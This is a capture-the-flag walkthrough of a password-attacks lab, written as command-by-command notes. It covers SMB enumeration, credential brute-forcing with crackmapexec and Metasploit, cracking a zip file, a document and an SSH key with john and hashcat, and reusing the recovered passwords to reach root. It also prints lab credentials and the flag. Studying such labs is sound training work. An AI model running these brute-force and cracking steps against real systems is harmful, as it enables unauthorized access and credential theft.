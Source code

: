 # Password Attacks Lab - Medium

Our next host is a workstation used by an employee for their day-to-day work. These types of hosts are often used to exchange files with other employees and are typically administered by administrators over the network. During a meeting with the client, we were informed that many internal users use this host as a jump host. The focus is on securing and protecting files containing sensitive information.

## Walkthrough

```bash
nmap -A -T4 10.129.202.221 -oN nmap.txt                
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
139/tcp  open     netbios-ssn Samba smbd 4.6.2
445/tcp  open     netbios-ssn Samba smbd 4.6.2
6129/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
| smb2-time: 
|   date: 2024-02-21T18:59:32
|_  start_date: N/A
|_nbstat: NetBIOS name: SKILLS-MEDIUM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

lets enumerate smb further

```bash
rpcclient -U "" -N 10.129.202.221
#so it means we can anonymous login
enumdomusers
#user:[sam] rid:[0x3e8]
#so we get there is user sam
```

try bruteforcing with crackmapexec

```bash
crackmapexec smb 10.129.202.221 -u username.list -d . -p password.list 
SMB         10.129.202.221  445    SKILLS-MEDIUM    [+] .\john:123456 
```

now lets try brute force with metasploit and the provided wordlists

```bash
#cant use hydra coz its not suport smbv1
msfconsole
use auxiliary/scanner/smb/smb_login
set user_file username.list
set pass_file password.list
set rhosts 10.129.202.221
run
#save to result into smb_login.txt
sed -e 's/.*\\\([^:]*\):\([^ ]*\).*/\1 \2/g; s/'\''$//g' smb_login.txt > result.txt
```

now to split the result&#x20;

```python
# Open the original file for reading
with open("userpass.txt", "r") as original_file:
    # Iterate over each line in the file
    for line in original_file:
        # Split the line into two parts based on space character
        parts = line.strip().split()
        # Check if the line has at least two parts
        if len(parts) >= 2:
            # Write each part to a separate text file
            with open("smb_username.txt", "a") as file1:
                file1.write(parts[0] + "\n")  # Add a newline character after writing
            with open("smb_password.txt", "a") as file2:
                file2.write(parts[1] + "\n")  # Add a newline character after writing
```

now lets check with the shares with smbclient

```bash
smbclient -L //10.129.202.221 -U john%123456
smbclient //10.129.202.221/SHAREDRIVE -U john%123456
ls
#  Docs.zip                            N     6724  Thu Feb 10 05:39:38 2022
get Docs.zip
```

Now try to unzip the docs

```bash
#since the zip is protected, lets try to crack it with john
zip2john Docs.zip > Docs.hash
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
john --wordlist=mut_password.list Docs.hash 
#Destiny2022!     (Docs.zip/Documentation.docx)     
unzip Docs.zip
#  inflating: Documentation.docx      
sudo apt install libreoffice -y
libreoffice Documentation.docx 
#its protected and we dont know the password
office2john Documentation.docx > Documentation.hash 
john --wordlist=mut_password.list Documentation.hash
987654321        (Documentation.docx)     
libreoffice Documentation.docx 
#Root password is jason:C4mNKjAtL2dydsYa6
```

lets try ssh with the crendentials jason

```bash
ssh jason@10.129.202.221
sudo -l
#Sorry, user jason may not run sudo on skills-medium.
#from documentation docs, it talk about mysql, lets try to login
mysql -u jason -pC4mNKjAtL2dydsYa6
show databases;
use users;
show tables;
select * from creds;
#| 101 | dennis             |7AUgWWQEiMPdqx|
#dennis is interesting coz different
cat /etc/passwd
#there is user dennis, lets try to to ssh as dennis
ssh dennis@10.129.202.221 
history
#cat id_rsa.pub > authorized_keys
#lets try to decrypt this id_rsa password, most probably this is the root user
scp dennis@10.129.202.221:/home/dennis/.ssh/id_rsa .
ssh2john id_rsa > id_rsa.hash
john --wordlist=mut_password.list id_rsa.hash
#P@ssw0rd12020!   (id_rsa)
ssh -i id_rsa root@10.129.202.221 
whoami #root
cat flag.txt 
HTB{PeopleReuse_PWsEverywhere!}
```
